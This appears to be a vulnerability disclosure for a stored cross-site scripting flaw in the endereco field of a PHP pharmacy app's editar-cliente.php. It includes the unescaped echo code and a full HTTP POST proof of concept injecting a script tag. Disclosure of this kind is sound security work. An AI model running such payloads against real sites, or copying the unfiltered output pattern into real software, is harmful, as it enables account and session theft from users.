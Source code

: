 # farmacia-in-php has Based Cross Site Scripting vulnerability in endereco  parameter in editar-cliente.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
editar-cliente.php and endereco parameter
## describe
There is an  Cross Site Scripting vulnerability in farmacia-in-php in editar-cliente.php,  Control parameter: endereco

Malicious attackers can use this cross-site scripting vulnerability to conduct phishing attacks and obtain administrator login information and permissions.

**Code analysis**

```
    <div class="row">
        <div class="form-group col-md-5">
            <label for="exampleInputEmail1">Endereco</label>
            <input type="text" required type="text" class="form-control" name="endereco"  value="<?php echo $cliente['endereco']?>">
        </div>
```

echo $cliente['endereco'] in no filter. 

## POC

![image-20241123121922535](https://github.com/user-attachments/assets/53ce4055-3575-4d1d-8379-0cc76477d9f8)

```
POST /adicionar-cliente.php/ HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------19936751914481096962863964736
Content-Length: 1234
Origin: http://farmacia
Connection: close
Referer: http://farmacia/adicionar-cliente.php/
Cookie: PHPSESSID=f2ibiaaffg3n4h8960vj2tagfv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="nome"

1
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="cpf"

1
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="dataNascimento"

2024-11-13
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="endereco"

"><script>alert(1);</script>
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="numero"

1
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="bairro"

1
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="telefone"

1
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="celular"

1
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="email"

1@outlook.com
-----------------------------19936751914481096962863964736
Content-Disposition: form-data; name="acao"


-----------------------------19936751914481096962863964736--

```

**Result**

![image-20241123122049660](https://github.com/user-attachments/assets/d7e04d64-1ed1-47d7-a8de-4eb448865309)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/editar-cliente.php?id=4
```

![image-20241123122143213](https://github.com/user-attachments/assets/8e15c5da-6bc3-4ed6-b876-699aa1816b8e)